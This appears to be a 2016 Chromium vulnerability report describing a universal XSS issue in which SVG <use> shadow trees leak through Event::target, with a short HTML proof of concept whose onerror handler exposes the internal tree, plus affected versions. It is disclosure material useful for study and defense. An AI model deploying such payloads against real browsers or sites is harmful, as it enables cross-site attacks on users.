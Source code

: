 # Universal XSS by intercepting a UA shadow tree

> Reported by <mailto:marius.mlynski@gmail.com>, Jul 24 2016

## VULNERABILITY DETAILS

When an event is dispatched to an element in a SVG `<use>` shadow tree, `Event::currentTarget` returns the original corresponding node, but `Event::target` doesn't make any attempt to redirect access. Therefore, the tree can be trivially leaked like this:

```html
<svg>
  <g id="a">
    <image href="" onerror="if (event.currentTarget !== event.target) {alert(event.target.parentNode.parentNode)}"></image>
  </g>
  <use href="#a"></use>
</svg>

```

Gaining access to the internal shadow tree allows an attacker to manipulate it in a way that allows triggering focus events in theoretically impossible circumstances, which may lead to DOM tree corruption.

## VERSION

Chrome 52.0.2743.82 (Stable)
Chrome 52.0.2743.82 (Beta)
Chrome 53.0.2785.21 (Dev)
Chromium 54.0.2806.0 (Release build compiled today)

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=655904
